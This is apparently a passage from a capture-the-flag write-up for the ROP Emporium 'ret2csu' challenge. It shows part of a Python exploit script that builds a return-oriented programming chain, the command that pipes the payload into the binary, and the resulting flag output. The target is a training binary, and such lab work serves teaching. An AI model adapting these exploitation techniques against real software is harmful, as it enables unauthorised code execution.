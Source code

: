 ```python
    rsi_bytes = p64(0xcafebabecafebabe)
    rdx_bytes = p64(0xd00df00dd00df00d)

    # ROP chain
    rop_chain = b''
    rop_chain += p64(pop_r12_r13_r14_r15) + r12_bytes + rdi_bytes + rsi_bytes + rdx_bytes # pop r12; pop r13; pop r14; pop r15; ret
    rop_chain += p64(mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]
    rop_chain += p64(0x00) * 7 # To maintain stack integrity after calling _fini function (pointed to by r12)
    rop_chain += p64(pop_rdi) + rdi_bytes # Need to set rdi again
    rop_chain += p64(ret2win_plt) # ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

    # Get flag
    payload = padding + p64(rbp_val) + rop_chain
    sys.stdout.buffer.write(payload)
    
if __name__ == '__main__':
    main()
```
- Save script and exit, then run Python script and this time pipe output directly to the ELF binary:
> $ `python get_flag.py | ./ret2csu`
```
ret2csu by ROP Emporium
x86_64

Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
- Success! The script can be left as it is as we've already read the flag, but the sample version included [here](./get_flag.py) went a step further (only changed 2 lines of code) by using the subprocess Python module to interact with the ELF binary directly and read the flag itself without having to pipe any output in the shell.


